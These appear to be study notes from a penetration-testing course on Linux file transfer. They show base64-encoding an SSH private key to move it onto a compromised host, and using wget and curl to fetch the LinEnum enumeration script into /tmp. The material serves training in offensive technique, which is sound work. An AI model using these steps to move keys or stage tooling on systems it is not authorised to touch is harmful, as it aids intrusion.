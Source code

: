 # Notes on Linux File Transfer Methods

## Introduction
- Linux offers versatile tools for file transfers, benefiting both attackers (evading detection) and defenders (securing systems).
- **Example**: Incident response on web servers revealed threat actors exploiting SQL injection to deploy a Bash script. The script attempted malware downloads via:
  1. `cURL`
  2. `wget`
  3. Python (all using HTTP).
- **Common Protocols**: Malware often uses HTTP/HTTPS; Linux also supports FTP and SMB, but HTTP/HTTPS dominates.

## Download Operations
- Scenario: Transfer files from Pwnbox to a compromised Linux machine (NX04).

### Base64 Encoding/Decoding
- **Purpose**: Transfer files without network communication by encoding to base64.
- **Process**:
  - Check file integrity (Pwnbox):
    ```bash
    md5sum id_rsa
    # Output: 4e301756a07ded0a2dd6953abf015278 id_rsa
    ```
  - Encode to base64:
    ```bash
    cat id_rsa | base64 -w 0; echo
    # Output: LS0tLS1CRUdJTtBPUEVOU1NIIFBSSVZBVEUgS0VZLS0t...
    ```
  - Decode on target:
    ```bash
    echo -n '<base64_string>' | base64 -d > id_rsa
    ```
  - Verify integrity:
    ```bash
    md5sum id_rsa
    # Output: 4e301756a07ded0a2dd6953abf015278 id_rsa
    ```
- **Note**: Reverse operation (encode on target, decode on Pwnbox) supports uploads.

### Web Downloads with `wget` and `cURL`
- **Tools**: `wget` and `cURL`, common in Linux distributions.
- **Commands**:
  - `wget`:
    ```bash
    wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh
    ```
  - `cURL`:
    ```bash
    curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
    ```
- **Difference**: `wget` uses `-O` (uppercase); `cURL` uses `-o` (lowercase) for output filename.
